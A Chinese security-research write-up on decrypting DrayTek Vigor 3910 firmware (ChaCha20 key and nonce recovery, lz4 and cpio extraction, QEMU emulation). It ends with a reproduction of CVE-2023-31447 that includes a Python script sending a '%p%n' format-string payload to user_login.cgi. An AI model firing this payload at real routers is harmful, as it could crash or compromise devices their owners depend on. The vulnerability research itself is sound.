# 手撕vigor固件解密复现历史漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/18803  
> **文章ID**: 18803

---

## 知识点学习：

### cpio认识

**cpio 是一种简单、轻量的流式文件归档工具。虽然在日常使用中不如** `tar` **或** `zip` **常见，但由于其格式极其简单，使得它的解析代码可以做得非常小，因此被 Linux 内核选中，专门用于制作在系统启动最初阶段使用的临时文件系统** `initramfs`**。**

### initramfs

`initramfs` 是一个自给自足的、存在于内存中的微型Linux环境，它的唯一目的就是在内核启动初期，提供必要的驱动和工具，帮助内核“解锁”并挂载真正的硬盘文件系统，从而让整个启动过程得以继续。

Yolo split 方式分割: 在固件打包时，不同组件之间通常用填充字节对齐比如\x00或者\xff 这种在固件分析可以起到不错的作用

### THUNDER关键字分割真相

硬件架构标识

- DrayTek Vigor 3910使用 Cavium THUNDERX ARM64处理器

- THUNDER是该处理器系列的官方品牌名称

- 作为硬件平台兼容性验证标识

2. 固件段分界符 在固件中发现了5个THUNDER关键字位置：

- 0x20060 - 关联 boot.bin

- 0x50060 - 关联 boot.bin (备份)

- 0x186C60 - 关联 init.bin

- 0x400060 - 关联 ATF stage 1

- 0x4EBDFD - 其他组件

### ATF-----> arm-trusted-firmware

关于ATF的一个基本介绍：<https://harmonyhu.com/2018/06/23/Arm-trusted-firmware/#%E5%9F%BA%E6%9C%AC%E4%BB%8B%E7%BB%8D>

通常BL1被烧录在ROM中，BL2/BL31/BL32/BL33/uboot被打包成fip.bin烧录在flash中；启动时通过检索UUID找到fip.bin中的各个image，参考`firmware_image_package.h`

文件长度一般跟在文件标识符的后面

### 如何判断真正的固件镜像或固件内核:

通过我们解密出来的bin文件 如何判断是不是正确解了呢？如何判断是否解出的是完整的镜像

#### 固件镜像识别判断标准

##### 1. 文件格式和结构特征

|  |  |  |  |
| --- | --- | --- | --- |
| 格式类型 | 文件头标识 | 十六进制 | 说明 |
| PE可执行文件 | MZ | `4D 5A` | Windows PE格式 |
| ELF可执行文件 | .ELF | `7F 45 4C 46` | Linux可执行文件 |
| U-Boot镜像 | - | `27 05 19 56` | U-Boot引导镜像 |
| GZIP压缩 | - | `1F 8B` | GZIP压缩格式 |
| LZMA压缩 | - | `5D 00 00` | LZMA压缩格式 |
| JFFS2文件系统 | - | `19 85` | 日志闪存文件系统 |
| SquashFS文件系统 | sqsh/hsqs | `73 71 73 68` | 只读压缩文件系统 |

##### 2. 处理器架构标识

|  |  |  |
| --- | --- | --- |
| 架构类型 | 关键字符串 | 说明 |
| ARM | `ARM`, `ARMv7`, `ARMv8`, `aarch64` | ARM处理器架构 |
| MIPS | `MIPS`, `mips`, `mipsel` | MIPS处理器架构 |
| x86 | `i386`, `x86_64`, `i686` | x86处理器架构 |
| PowerPC | `powerpc`, `ppc` | PowerPC处理器架构 |

##### 3. Linux内核特征标识

|  |  |  |
| --- | --- | --- |
| 特征类型 | 关键字符串 | 示例 |
| 内核版本 | `Linux version` | `Linux version 4.14.195` |
| 编译器信息 | `gcc version` | `gcc version 6.2.0` |
| SMP标识 | `#[数字] SMP` | `#2 SMP PREEMPT` |
| 系统调用 | `__kernel_*` | `__kernel_gettimeofday` |
| VDSO | `linux-vdso.so` | `linux-vdso.so.1` |
| 内核版本 | `LINUX_[版本]` | `LINUX_2.6.39` |
| 命令行 | `Kernel command line` | 内核启动参数 |

##### 4. 硬件驱动程序标识

###### 4.1 网络设备驱动

|  |  |  |
| --- | --- | --- |
| 厂商 | 关键字符串 | 芯片型号示例 |
| Broadcom | `brcm`, `bcm` | `brcm,40nm-ephy` |
| Marvell | `marvell`, `88E` | `marvell,88E1111` |
| Realtek | `rtl`, `r8169` | `rtl8139`, `r8168` |
| Atheros | `ath`, `ar` | `ath9k`, `ar9331` |
| Intel | `intel`, `e1000` | `e1000e`, `igb` |

###### 4.2 USB和存储驱动

|  |  |  |
| --- | --- | --- |
| 设备类型 | 关键字符串 | 说明 |
| USB控制器 | `xhci`, `ohci`, `ehci` | USB主机控制器 |
| SCSI设备 | `scsi`, `sd_mod` | SCSI存储设备 |
| SATA控制器 | `sata`, `ahci` | SATA硬盘控制器 |
| MMC/SD卡 | `mmc`, `sdhci` | SD卡控制器 |
| MTD设备 | `mtd`, `nand` | 闪存设备 |

###### 4.3 文件系统支持

|  |  |  |
| --- | --- | --- |
| 文件系统 | 关键字符串 | 用途 |
| ext4 | `ext4` | Linux标准文件系统 |
| JFFS2 | `jffs2` | 闪存日志文件系统 |
| SquashFS | `squashfs` | 只读压缩文件系统 |
| UBIFS | `ubifs` | UBI文件系统 |
| YAFFS2 | `yaffs2` | NAND闪存文件系统 |

#### 5. 设备树支持（ARM设备）

|  |  |  |
| --- | --- | --- |
| 特征 | 关键字符串 | 说明 |
| 设备树 | `device-tree`, `of_graph_*` | ARM设备树支持 |
| 总线类型 | `simple-bus`, `arm,amba-bus` | 设备总线定义 |
| 平台设备 | `platform_device` | 平台设备驱动 |

#### 6. 引导加载程序特征

|  |  |  |
| --- | --- | --- |
| 类型 | 关键字符串 | 说明 |
| 通用引导 | `bootloader` | 引导加载程序 |
| U-Boot | `u-boot`, `U-Boot` | 开源引导程序 |
| UEFI | `UEFI`, `EFI` | 统一可扩展固件接口 |
| 系统内存 | `System RAM` | 系统内存管理 |
| 启动命令 | `boot command line` | 启动参数 |

#### 7. 厂商和设备标识

##### 7.1 路由器厂商

|  |  |  |
| --- | --- | --- |
| 厂商 | 关键字符串 | 产品系列 |
| DrayTek | `DrayTek`, `Vigor` | Vigor系列路由器 |
| ASUS | `ASUS`, `RT-` | RT系列路由器 |
| Netgear | `Netgear`, `WNR` | WNR系列路由器 |
| TP-Link | `TP-Link`, `TL-` | TL系列路由器 |
| Linksys | `Linksys`, `WRT` | WRT系列路由器 |

##### 7.2 版本信息

|  |  |  |
| --- | --- | --- |
| 信息类型 | 关键字符串 | 示例 |
| 固件版本 | `firmware version`, `fw_ver` | `firmware version 1.2.3` |
| 构建信息 | `build`, `built` | `built on 2023-09-28` |
| 发布日期 | `release`, `date` | 发布时间信息 |

#### 8. 文件大小合理性判断

|  |  |  |
| --- | --- | --- |
| 设备类型 | 典型大小范围 | 说明 |
| 家用路由器 | 8MB - 64MB | 一般家用路由器固件 |
| 企业路由器 | 32MB - 128MB | 企业级路由器固件 |
| 嵌入式设备 | 4MB - 32MB | 简单嵌入式设备 |
| 工业设备 | 16MB - 256MB | 工业控制设备 |
| 可疑文件 | < 1MB 或 > 500MB | 需要特别验证 |

#### 9. 验证

#### 工具和命令

|  |  |  |
| --- | --- | --- |
| 工具 | 命令示例 | 用途 |
| Binwalk | `binwalk -e firmware.bin` | 固件分析和提取 |
| file命令 | `file firmware.bin` | 文件类型检测 |
| strings | `strings firmware.bin | grep -i linux` | 字符串搜索 |
| hexdump | `hexdump -C firmware.bin | head -20` | 十六进制查看 |
| dd命令 | `dd if=firmware.bin bs=1 count=512` | 提取文件头部 |

#### 10. 判断结果分类

|  |  |  |
| --- | --- | --- |
| 结果 | 特征 | 可信度 |
| ✅ 真正固件 | 包含内核、驱动、厂商信息 | 高 |
| ⚠️ 部分固件 | 只包含部分组件 | 中 |
| ❌ 加密固件 | 无法识别内容结构 | 需解密 |
| ❌ 损坏文件 | 结构不完整或错误 | 低 |
| ❌ 非固件文件 | 不包含固件特征 | 无 |

写了个一体化的压缩检测工具 FirmwareScope 放在最下面附件了

## 分析固件解密流程：

### 切割划分关键部分

用THUNDER关键字进行分割为四个部分

```
dd if=v3910_3972.all of=boot1.bin skip=8198 count=12288 bs=16
dd if=v3910_3972.all of=boot2.bin skip=20486 count=79552 bs=16
dd if=v3910_3972.all of=init.bin skip=100038 count=162112 bs=16
dd if=v3910_3972.all of=stage1.bin skip=262150 bs=16
```

在 ATF stage 1 中可以找到 `BL1: Booting BL2` 等字符串，此为 [ARM Trusted Firmware](https://chromium.googlesource.com/external/github.com/ARM-software/arm-trusted-firmware/+/v0.4-rc1/docs/firmware-design.md) 相关内容，所以 3910 设备上可能使用了 ATF 技术。

### ATF 启动流程



#### 阶段一：BL1 - 硬件信任根 (Root of Trust, RoT)

* **典型实现**: SoC 内部的 Boot ROM。这是芯片上电复位后，CPU 执行的第一段代码，由芯片制造商固化，不可更改。
* **运行位置**: On-Chip ROM (芯片内部只读存储器)。
* **异常级别**: EL3 (最高安全等级)。
* **核心职责**:

1. **最小化硬件初始化**: 初始化执行下一阶段所必需的最基本硬件，例如时钟、看门狗以及用于加载 `BL2` 的存储接口（如 SPI, eMMC）。
2. **加载 BL2**: 在非易失性存储（Flash）中找到 `BL2` 镜像，并将其加载到安全的 On-Chip SRAM (芯片内部静态RAM) 中。
3. **验证 BL2**: 使用存储在 ROM 或 OTP (One-Time Programmable) 区域的公钥哈希，对 `BL2` 镜像的签名进行密码学验证。**这是信任链的第一环**。
4. **跳转执行**: 验证通过后，将CPU的执行权交给 `BL2`。如果验证失败，系统将进入错误状态，启动中止。

#### 阶段二：BL2 - 第二阶段引导加载程序

* **典型实现**: ATF (ARM Trusted Firmware) 的一部分。
* **运行位置**: On-Chip SRAM (安全内部静态RAM)。
* **异常级别**: 通常在 S-EL1 (安全EL1) 执行，但由 EL3 的 BL1 载入和跳转。
* **核心职责**:

1. **扩展硬件初始化**: 初始化主内存（DDR DRAM）和其他后续阶段需要的硬件。
2. **加载后续镜像**: `BL2` 负责从 Flash 加载所有后续的固件镜像到主内存（DDR）中。这些镜像通常打包在一个称为 FIP (Firmware Image Package) 的二进制文件中，主要包括：

* `BL31` (EL3 运行时固件)
* `BL32` (可选的安全OS)
* `BL33` (正常世界的引导程序)

3. **验证后续镜像**: 对加载到内存中的 `BL31`, `BL32`, `BL33` 等镜像进行签名验证，**延伸信任链**。
4. **传递信息并跳转**: 准备一个信息结构体（`bl_params`），包含后续镜像在内存中的位置等信息，然后跳转到 `BL31` 的入口点。

#### 阶段三：BL31 - EL3 运行时固件 (安全监视器)

* **典型实现**: ATF 的一部分，也称为 Secure Monitor。
* **运行位置**: Secure DRAM (主内存的安全区域)。
* **异常级别**: EL3。**此阶段代码在系统启动后会常驻内存**，作为安全世界和正常世界之间的仲裁者。
* **核心职责**:

1. **初始化安全运行时环境**: 设置 EL3 的中断向量、初始化 PSCI (电源状态协调接口) 服务，并建立 SMC (安全监视器调用) 的处理机制。
2. **初始化 BL32 (如果存在)**: 如果系统配置了安全OS（如 OP-TEE），`BL31` 会负责初始化 `BL32`，并让其完成自身环境的设置。
3. **准备切换到正常世界**: 设置好 CPU 的上下文，为跳转到 `BL33` 做准备。这包括设定 `BL33` 将要运行的异常级别（EL2 或 EL1）。
4. **执行权交接**: `BL31` 执行 `ERET` 指令，将CPU的控制权正式移交给 `BL33`，**标志着系统从安全世界进入正常世界**。

#### 阶段四：BL32 - 安全操作系统 (可选)

* **典型实现**: OP-TEE, Trusty OS 等。
* **运行位置**: Secure DRAM (主内存的安全区域)。
* **异常级别**: S-EL1。
* **核心职责**:

1. 提供一个完整的可信执行环境（TEE）。
2. 管理和运行可信应用（Trusted Applications, TAs）。
3. 为正常世界的操作系统提供加密、安全存储、身份验证等安全服务。它通过 `BL31` 提供的SMC接口与正常世界通信。

#### 阶段五：BL33 - 正常世界引导加载程序

* **典型实现**: **U-Boot**。
* **运行位置**: Non-Secure DRAM (主内存的非安全区域)。
* **异常级别**: EL2 (Hypervisor 模式) 或 EL1 (OS 模式)。
* **核心职责**:

1. **全面的非安全硬件初始化**: 初始化操作系统所需的各种外设，如以太网、USB、显示控制器等。
2. **加载操作系统**: 从存储介质（eMMC, UFS, 网络等）中加载操作系统内核（Kernel）、设备树（DTB）和内存文件系统（initrd）。
3. **准备启动参数**: 设置传递给内核的启动参数（`bootargs`），例如根文件系统的位置。
4. **最终跳转**: 将CPU控制权交给操作系统内核，完成整个启动流程。

在这个过程中考虑到安全层面所以每一个阶段的权限也会随之改变



CPU 会先执行 BL1，BL1 通常被烧录在 ROM 中，BL1 完成初始化工作之后会通过 UUID 查找其他 BL 的位置，BL2、BL3、系统镜像等部分被单独打包在 fip.bin，存放到 flash 内。考虑到关键部分应该在 fip.bin，所以要想办法找到此文件并解包。

### 找fip.bin



TOC\_HEADER\_NAME为0xAA640001

TOC\_HEADER\_SERIAL\_NUMBER为0x12345678

因此我们就可以在stage 1 bin中去查找



检索到定位位置是0x3FFF0

```
dd if=stage1.bin of=fip.bin skip=16383 bs=16
```

### 解包fip.bin得到bl33

解包出fip.bin之后 得到 fip.bin

fiptool 是ARM Trusted Firmware生态系统中不可或缺的工具，专门用于管理FIP格式的固件包。它不仅能解析 fip.bin 文件，还能创建、修改和维护这些文件，是固件开发和部署过程中的重要工具。

> sudo apt install arm-trusted-firmware-tools

> fiptool unpack fip.bin

后得到图解



一个一个看之后发现nt-fw.bin的逻辑最接近bl33

### 通过bl33找加密逻辑并对固件进行解密

这里讲一下这个nt-fw.bin也就是这个bl33的一个解密逻辑 这里就是简单来说bl33做的就是一个载入镜像的功能



chacha20的算法 具体：<https://blog.csdn.net/choumin/article/details/132804784>

然后还要知道nonce nonce的话 由于是vigor 4.x.x版本有加密 因此就会在镜像中存储nonce 同时我们需要找到镜像文件的位置 和长度



这里有一个问题 就是为什么这个长度就是镜像长度，为什么刚好跟在enc\_image后面 这里我们通过bl33分析只找到



这里关于长度是通过读取的filesize环境变量 猜测在bl2的时候就把环境变量给设置好了传到的bl33 那么我们再去分析其他固件

```
dd if=v3910_4325.all of=enc_Image skip=15 count=3449248 bs=16
```

接下来dd if 截取到enc\_img 但是要删掉部分 因为加密是从长度大小记录后面开始 加密脚本如下

```
import sys
from Crypto.Cipher import ChaCha20

def do_decrypt(enc_Image):
    nonce = b"UODAjyXZOzH0"

    with open(enc_Image, "rb") as f:
        enc_data = f.read()
    
    key = b"0DraytekKd5Eason3DraytekKd5Eason"    # J to E
    cipher = ChaCha20.new(key=key, nonce=nonce)
    dec_data = cipher.decrypt(enc_data)

    with open(enc_Image + "_decrypted.bin", "wb") as f:
        f.write(dec_data)
    
    print("Done!")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 %s <enc_Image>" % sys.argv[0])
        exit(0)
    
    filename = sys.argv[1]
    do_decrypt(filename)
```

解之前



解之后



### 分析解密文件找到压缩特征

然后我们解压出解密后的镜像 我们尝试binwalk解压看看 发现解压不了



解压出来这些玩意 仔细去分析了一下解压文件的代码后发现

通过字符串交叉引用发现



这个函数是一个智能的数据解压与解包程序，它接收两个核心参数：一个是指向待处理数据流起始位置的指针 `a1`，另一个是表示该数据流总长度的整数 `a2`。函数通过主循环来遍历这块由 `a1` 和 `a2` 定义的完整数据，在循环中检查每个数据块的特征，以判断其是无需处理的原始数据还是需要解压的压缩数据。对于压缩块，它能动态识别出具体的压缩算法

​

a1是起始的位置 a2是整体长度 同时a1存放的特征也标识了解压缩的格式





在跟进发现a1是9DFC18的位置 a2是0x2A0B6D6



可以看到明显的变化再结合代码分析我们下一步就把9DFC18提取长度0x2A0B6D6

```
dd if=encrypt.bin_decrypted.bin bs=1M iflag=skip_bytes skip=10353688 | head -c 44086998 > lz4.bin
```

提取得到lz4.bin 然后解压

```
lz4 -d lz4.bin lz4_decompress
```

### 分析解压缩后的文件





`cpio` 文档的魔术（magic）字段是 070707，这是 `cpio` 文件格式头部中的一个固定字段，表示该文件的起始位置，也即 `magic` 字段的值为 `070707`。`cpio` 文件格式由头部、文件名和数据组成，以一个固定名称的文件 `TRAILER!!!` 作为文件结束标记。

```
cpio -idm --no-absolute-filenames < ../file.cpio
```



固件解密成功

## 固件模拟分析

这里先搜集一波信息





找到web server是httpd



通过进一步分析 发现这个解压后的文件 甚至没有html和www 这是不可能的因为访问网关是有web界面的，但是我们发现有一个sohod64.bin的镜像这说明我们应该是通过镜像载入的一些web界面之类的 这里可能是文件系统嵌套镜像 启动的镜像文件 实现的功能(盲猜一手，因为跟进httpd只在这个镜像中找到了) 那么我们在继续跟踪sohod64.bin通过文件跟进 找到三个sh文件我们分析一下发现 这里misc.sh看着就不是所以这里只比较两种

|  |  |  |
| --- | --- | --- |
| 特性 | run.sh | run\_linux.sh |
| **用途** | 完整固件模拟 | 纯Linux测试环境 |
| **网络接口** | 9个接口 | 2个接口 |
| **内存配置** | 动态调整(512MB-1GB) | 固定512MB |
| **DPDK支持** | ​支持 | 不支持 |
| **配置管理** | 复杂的GCI系统 | 简化配置 |
| **启动速度** | 较慢 | 较快 |
| **调试功能** | 完整GDB支持 | 基础支持 |
| **适用场景** | 生产环境模拟、完整功能测试 | 快速测试、开发调试 |

这里就是要执行run\_linux.sh 但是 关注到



这个qemu有个-dtb DrayTek这个 说明不是原生的qemu而是二开 既然是二开就找一下原版本编译后找到编译后带-dtb的qemu-system-aarch64文件

<https://gplsource.draytek.com/?dir=Vigor3910>

下载解压后build发现没有这个文件 于是跟进继续去找



发现有个qemu-2.12.1.tar.bz2文件 解压后 在编译

```
./configure --enable-kvm --enable-debug --target-list=aarch64-softmmu
make
```

进行编译 因为**C 与 C++ 语言混合编程时，因链接规则冲突而导致的编译错误**。



修改后成功编译修改set\_qemu\_linux.sh 和 run\_linux.sh

set\_qemu\_linux.sh

```
#reset switch to clear vlan settings in 3910 board
if [ -f /sbin/sw_setup ]; then
	sw_setup hw_reset; sw_setup sw_reset
fi
```

这一部分要删掉 是重置部分

```
#!/bin/bash

iflan=eth0
ifwan=eth1
mylanip="192.168.1.2"

brctl delbr br-lan
brctl delbr br-wan

ip link add br-lan type bridge
ip tuntap add qemu-lan mode tap
brctl addif br-lan $iflan
brctl addif br-lan qemu-lan
ip addr flush dev $iflan
ifconfig br-lan $mylanip
ifconfig br-lan up
ifconfig qemu-lan up
ifconfig $iflan up

ip link add br-wan type bridge
ip tuntap add qemu-wan mode tap
brctl addif br-wan $ifwan
brctl addif br-wan qemu-wan
ip addr flush dev $ifwan
ifconfig br-lan $mylanip
ifconfig br-wan up
ifconfig qemu-wan up
ifconfig $ifwan up

brctl show

#for speed test
ethtool -K $iflan gro off
ethtool -K $iflan gso off

ethtool -K $ifwan gro off
ethtool -K $ifwan gso off

ethtool -K qemu-lan gro off
ethtool -K qemu-lan gso off

ethtool -K qemu-wan gro off
ethtool -K qemu-wan gso off


#for telnet from linux to drayos 192.168.2.3
ethtool -K br-lan tx off
```

```
#!/bin/bash
# 1. do "fw_setenv purelinux 1" first , then reboot
# 2. do setup_qemu_linux.sh (default P3 as WAN, P4 as LAN, for both 1Gbps connection only)
# 3. remember to recover to normal mode by "fw_setenv purelinux 0"

rangen() {
   printf "%02x" `shuf -i 1-255 -n 1`
}


rangen1() {
   printf "%x" `shuf -i 1-15 -n 1`
}

wan_mac(){
        idx=$1
        printf "%02x
" $((0x${C}+0x$idx)) | tail -c 3 # 3 = 2 digit + 1 terminating character
}

A=$(rangen); B=$(rangen); C=$(rangen);
LAN_MAC="00:1d:aa:${A}:${B}:${C}"

if [ ! -p serial0 ]; then
    mkfifo serial0
fi
if [ ! -p serial1 ]; then
    mkfifo serial1
fi

platform_path="./platform"
echo "x86" > $platform_path
enable_kvm_path="./enable_kvm"
echo "kvm" > $enable_kvm_path

cfg_path="./magic_file"

echo "GCI_SKIP" > gci_magic

mkdir -p ../data/uffs
touch ../data/uffs/v3910_ram_flash.bin
uffs_flash="../data/uffs/v3910_ram_flash.bin"

echo "1" > memsize

(sleep 20 && ethtool -K qemu-lan tx off) &

model="./model"
echo "3" > ./model

rm -rf ./app && mkdir -p ./app/gci
GCI_PATH="./app/gci"
GCI_FAIL="./app/gci_exp_fail"
GDEF_FILE="$GCI_PATH/draycfg.def"
GEXP_FLAG="$GCI_PATH/EXP_FLAG"
GEXP_FILE="$GCI_PATH/draycfg.exp"
GDEF_FILE_ADDR="0x4de0000"
GEXP_FLAG_ADDR="0x55e0000"
GEXP_FILE_ADDR="0x55e0010"

echo "0#" > $GEXP_FLAG
echo "19831026" > $GEXP_FILE
echo "GCI_SKIP" > $GDEF_FILE

SHM_SIZE=16777216
/home/sn0w/桌面/iot/luyouqi/Vigor3910/v3910_4325/Vigor3910_v396_GPL_release/source/linux/cavium-rootfs/src_dir/qemu-2.12.1/aarch64-softmmu/qemu-system-aarch64 -M virt,gic_version=3 -cpu cortex-a57 -m 1024 -L ../usr/share/qemu \
           -kernel ./vqemu/sohod64.bin $serial_option -dtb DrayTek \
           -nographic $gdb_serial_option $gdb_remote_option \
           -device virtio-net-pci,netdev=network-lan,mac=${LAN_MAC} \
           -netdev tap,id=network-lan,ifname=qemu-lan,script=no,downscript=no \
           -device virtio-net-pci,netdev=network-wan,mac=00:1d:aa:${A}:${B}:$(wan_mac 1) \
           -netdev tap,id=network-wan,ifname=qemu-wan,script=no,downscript=no \
           -device virtio-serial-pci -chardev pipe,id=ch0,path=serial0 \
           -device virtserialport,chardev=ch0,name=serial0 \
           -device loader,file=$platform_path,addr=0x25fff0 \
           -device loader,file=$cfg_path,addr=0x260000 \
           -device loader,file=$uffs_flash,addr=0x00be0000 \
           -device loader,file=$enable_kvm_path,addr=0x25ffe0 \
           -device loader,file=memsize,addr=0x25ff67 \
	        -device loader,file=$model,addr=0x25ff69 \
           -device loader,file=$GDEF_FILE,addr=$GDEF_FILE_ADDR \
           -device loader,file=$GEXP_FLAG,addr=$GEXP_FLAG_ADDR \
           -device loader,file=$GEXP_FILE,addr=$GEXP_FILE_ADDR \
           -device nec-usb-xhci,id=usb \
           -device ivshmem-plain,memdev=hostmem \
           -object memory-backend-file,size=${SHM_SIZE},share,mem-path=/dev/shm/ivshmem,id=hostmem
```

## 漏洞分析

### CVE-2023-31447



user\_login.cgi

根据描述，漏洞出现在 user\_login.cgi 中，在 soho64.bin 搜索该字符串



结果中有一个地址找不到任何引用，在程序中搜索该字符串的地址可以找到 IDA 未识别的位置，此处存在大量 URI -> handler 的映射关系，因此也能找到 user\_login.cgi 的 handler，其中关键代码如下

```
v4 = GetCGIbyFieldName(v53 + 56, "fid");// fid
  v62 = atoi(v4);
  switch ( v62 )
  {
    case 101:
      user_login_101(v53 + 56);
      resp(*(v54 + 0xCLL), "Location: /weblogin.htm

", 256LL);
      return res(v53 + 56);
          // ...
  }
    // ...
}
```

首先获取用户传递的 fid 参数，转换成 int 类型之后进入 switch 处理

当 fid 等于 101 时，会调用 user\_login\_101 函数

```
__int64 __fastcall user_login101(int a1)
{
  v12 = GetCGIbyFieldName(a1, "src_ip");
  v11 = GetCGIbyFieldName(a1, "target_url");
  v1 = GetCGIbyFieldName(a1, "mode");
  v10 = atoi(v1);
  v2 = GetCGIbyFieldName(a1, "fw_set");
  v9 = atoi(v2);
  v3 = GetCGIbyFieldName(a1, "fw_rule");
  v8 = atoi(v3);

  
  memset(&buf1, 0, 0x14uLL);
  memset(&buf2, 0, 0xFFuLL);
  snprintf(&buf1, 20LL, v12, v4);
  return snprintf(&buf2, 255LL, v11, v5);
}
```

snprintf这里没有限制 存在格式化字符串攻击，攻击脚本为

```
import requests

# 1. 定义目标URL
# 从原始请求的 Host 和第一行路径拼接而成
url = "http://192.168.2.3/cgi-bin/user_login.cgi"

# 2. 定义HTTP头部信息 (Headers)
# 将原始请求中的头部信息原封不动地复制过来
headers = {
    'Host': '192.168.2.3',
    'Origin': 'http://192.168.2.3',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Connection': 'close',
    # 模拟一个常见的浏览器User-Agent是一个好习惯
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'
}

# 3. 定义POST请求的数据体 (Payload)
# 将原始请求最后一行的数据复制过来
# 注意: requests库会自动处理URL编码，所以我们提供解码后的清晰版本
# %25 -> %
# %70 -> p
# %6e -> n
# 所以 %25%70%25%6e 就是 %p%n
# 如果您想发送原始的双重编码字符串，请使用下面的 payload_raw
payload_decoded = {
    'fid': '101',
    'src_ip': '111',
    'target_url': '%p%n',  # 这是 '%25%70%25%6e' 解码一次后的结果
    'mode': '1',
    'fw_set': '1',
    'fw_rule': '1'
}

# 如果您确实需要发送那个经过双重URL编码的原始字符串，可以直接用字符串形式：
# payload_raw = "fid=101&src_ip=111&target_url=%25%70%25%6e&mode=1&fw_set=1&fw_rule=1"

# 4. 发送POST请求
try:
    # 使用 payload_decoded，requests会自动编码为 application/x-www-form-urlencoded 格式
    response = requests.post(url, headers=headers, data=payload_decoded, timeout=10)
    
    # 如果要发送原始双重编码的字符串，请使用下面这行
    # response = requests.post(url, headers=headers, data=payload_raw, timeout=10)

    # 5. 打印服务器的响应
    print(f"Status Code: {response.status_code}")
    print("---------- Headers ----------")
    for key, value in response.headers.items():
        print(f"{key}: {value}")
    print("---------- Content ----------")
    print(response.text)

except requests.exceptions.RequestException as e:
    print(f"请求失败: {e}")
```
